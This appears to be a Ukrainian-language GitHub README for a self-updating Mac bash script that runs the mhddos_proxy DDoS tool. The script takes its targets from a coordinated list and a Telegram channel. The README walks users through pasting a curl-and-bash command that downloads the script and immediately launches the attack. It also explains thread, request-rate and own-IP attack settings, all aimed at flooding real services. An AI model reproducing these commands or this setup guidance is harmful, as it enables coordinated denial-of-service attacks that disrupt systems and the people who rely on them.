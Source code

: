 # Опис auto_mhddos_mac

runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Mac-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)  
Також він автоматично оновлює не лише свій скрипт та цілі, а й сам скрипт mhddos_proxy  
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-2 (рандомно) хвилин), щоб дати машині трохи відпочити
Скрипт розподіляє список машин по цілям: https://github.com/alexnest-ua/targets/blob/main/targets_linux  
  
[**Варіант для Windows**](https://github.com/alexnest-ua/runner_for_windows)  
[**Варіант для Linux**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/main)  
[**Варіант для Docker**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker)    
  
можете запускати цей скрипт на увесь день та йти по своїм справам - він сам буде брати актуальні цілі  

**якщо запускаєте цей скрипт - інші атаки через Python не запускайте, бо при рестарті він вбиває усі процеси старі процеси з mhddos_proxy (щоб старі атаки не накопичувалися)**

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Mac запущено цей скрипт - то можете відповчивати, він все зробить за вас)  
чат де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

# Запуск скрипта
1) Заходимо в Launchpad, щоб відкрити термінал  
![image](https://user-images.githubusercontent.com/74729549/167318008-ec0e5caf-dc57-4d29-a352-8b41c49d4fe2.png)
2) У пошуку вбиваємо terminal  
![image](https://user-images.githubusercontent.com/74729549/167318025-d7d89817-4e83-4118-8c35-fbf37e59fdea.png)
3) Запускаємо Термінал  
![image](https://user-images.githubusercontent.com/74729549/167318042-f892bec6-7a8b-4ad7-aed1-f625f2e92fd4.png)
4) Вводимо команду, яка сама завантантажить усе необхідне та запустить атаку (на початку можливо у вас попросить **ваш пароль**, та після цього натиснути Enter, щоб підтвердити встановлення потрібнго пакету (brew))
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh
```
  
Буде запущено атаку з наступними параметрами за замовчуванням: threads=1500 rpc=1000 debug="" vpn=""(1500 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу, без атаки через ваш ІР)
  
**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 2)), але можно і без них:  
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh [threads] [rpc] [debug] [vpn]  
- threads - кількість потоків (але не менше 1000, та не більше 4000)
- rpc - кількість запитів на проксі перед відправкою на ціль (але не менше 1000, та не більше 2500)
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
- vpn - використання вашого ІР у атаці разом з проксі

**ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ті, що за замовчуванням.**  
**також можете додавати **3-тим** параметром --debug, що слідкувати за ходом атаки, та **4-тим** параметром --vpn, щоб атакувати ще й через свій ІР разом з проксі**  
*наприклад команда з 2500 threads 2000 rpc дебагом та доп. атакою через ваш ІР*  
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh 2500 2000 --debug --vpn
```

#test
